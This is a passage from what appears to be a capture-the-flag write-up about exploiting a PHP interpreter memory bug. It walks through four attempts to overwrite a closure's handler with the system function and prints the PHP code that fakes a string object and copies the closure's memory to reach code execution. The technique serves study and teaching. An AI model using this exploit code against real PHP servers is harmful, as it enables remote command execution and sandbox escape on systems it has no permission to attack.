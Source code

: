 By the way, the way to leak `abc_addr` resented in provided exploit does not work here, I don't know why. In addition, the ELF stuff inside provided exploit is not necessary, because we already know the `libphp7` so that `zif_system` address can be calculated directly.

### Code Execution

This is actually the part the got me stuck for very long time. The primary objective is to rewrite the function in `b` field to PHP system function. As the provided exploit suggests, we need to write `$closure_obj+0x38` to 1 and `$closure_obj+0x68` to `zif_system`.  I have came up with 4 approaches, but only the last one works:

1. Fake a string object to build a arbitrary write primitive, but it seems that when writing to string fetched from object field, the engine will copy it first before writing, which means we cannot rewrite the function object directly.
2. Since the length of `$abc` is very big(e.i. an 6-byte address), we can directly use `$abc` to write content in `$closure_obj`. However, this requires `$closure_obj` to be larger that `$abc_addr`, which means the function object must lay behind `$abc` in memory. This is true when we execute the script directly, but when converting exploit into string and executing it using `eval`, this property does not hold.
3. Re-trigger the vulnerability but fill the just-freed string with a function object, but it seems that I cannot achieve this after many trials.
4. Copy the contents inside `$closure_obj` and change the relevant field in the copied fake object. This is the approach used by provided exploit. However, we cannot use `strlen` function to achieve arbitrary memory read, unlike the provided exploit. My approach is to interpret address `$closure_obj` as a PHP string so that we can read contents after `+0x18` offset. As for copying, since the recursion depth and loop are restricted, we just copy and paste the code to achieve the copy. The relevant codes are shown below:

```php
// fake value
write($abc, 0x10, $closure_obj);
write($abc, 0x18, 0x6); 
// fake a string object at $closure_obj

function copyFunc($off)
{
    global $helper;
    global $abc;
    if ($off > 0x110) return;
    write($abc, 0xd0 + 0x18 + $off, str2ptr($helper->a, $off));
    write($abc, 0xd0 + 0x20 + $off, str2ptr($helper->a, $off+8));
    write($abc, 0xd0 + 0x28 + $off, str2ptr($helper->a, $off+0x10));
    write($abc, 0xd0 + 0x30 + $off, str2ptr($helper->a, $off+0x18));
    write($abc, 0xd0 + 0x38 + $off, str2ptr($helper->a, $off+0x20));
    write($abc, 0xd0 + 0x40 + $off, str2ptr($helper->a, $off+0x28));
    write($abc, 0xd0 + 0x48 + $off, str2ptr($helper->a, $off+0x30));
    write($abc, 0xd0 + 0x50 + $off, str2ptr($helper->a, $off+0x38));
    write($abc, 0xd0 + 0x58 + $off, str2ptr($helper->a, $off+0x40));
    write($abc, 0xd0 + 0x60 + $off, str2ptr($helper->a, $off+0x48));
    write($abc, 0xd0 + 0x68 + $off, str2ptr($helper->a, $off+0x50));
    write($abc, 0xd0 + 0x70 + $off, str2ptr($helper->a, $off+0x58));
    write($abc, 0xd0 + 0x78 + $off, str2ptr($helper->a, $off+0x60));
    write($abc, 0xd0 + 0x80 + $off, str2ptr($helper->a, $off+0x68));
    write($abc, 0xd0 + 0x88 + $off, str2ptr($helper->a, $off+0x70));
    write($abc, 0xd0 + 0x90 + $off, str2ptr($helper->a, $off+0x78));
    write($abc, 0xd0 + 0x98 + $off, str2ptr($helper->a, $off+0x80));
    write($abc, 0xd0 + 0xa0 + $off, str2ptr($helper->a, $off+0x88));
    copyFunc($off + 0x90);
} // function to copy the content inside $closure_obj

write($abc, 0xd0, 0x0000031800000002);
write($abc, 0xd0 + 8, 0x0000000000000003);
// write some headers in $closure_obj, 
// which are simply constants from gdb
copyFunc(0); // copy body in $closure_obj
```